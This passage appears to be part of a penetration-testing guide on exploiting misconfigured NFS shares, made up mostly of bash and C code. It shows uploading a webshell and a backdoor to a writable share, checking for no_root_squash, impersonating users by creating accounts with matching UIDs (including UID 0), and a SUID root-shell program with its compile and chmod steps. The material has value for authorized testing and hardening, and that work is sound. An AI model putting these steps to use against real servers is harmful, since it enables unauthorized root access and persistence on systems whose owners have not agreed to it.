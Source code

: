 
## Exploitation Techniques

### Writable Share Exploitation
```bash
# Test write permissions
echo "test content" > /mnt/nfs_target/test.txt

# VULNERABILITY: If successful, share allows unauthorized writes
# Upload malicious files
cp /path/to/webshell.php /mnt/nfs_target/
cp /path/to/backdoor /mnt/nfs_target/
```

### Root Squash Bypass
```bash
# Check if no_root_squash is enabled
# Create file as root and check ownership retention

sudo touch /mnt/nfs_target/root_test
ls -l /mnt/nfs_target/root_test

# If owner remains root (UID 0): VULNERABILITY - no_root_squash enabled
# This allows full root access to the share
```

### UID/GID Manipulation
```bash
# Create user with target UID
sudo useradd -u 1000 nfs_user

# Switch to target user
sudo su nfs_user

# Access files with matching UID
cat /mnt/nfs_target/user_file.txt

# Create user with UID 0 (if no_root_squash)
sudo useradd -u 0 fake_root
sudo su fake_root
```

### Privilege Escalation
```bash
# Create SUID binary for privilege escalation
# On writable NFS share, create SUID shell

cat > /mnt/nfs_target/shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void) {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
EOF

# Compile and set SUID (requires root access on NFS server)
gcc /mnt/nfs_target/shell.c -o /mnt/nfs_target/shell
chmod u+s /mnt/nfs_target/shell

```
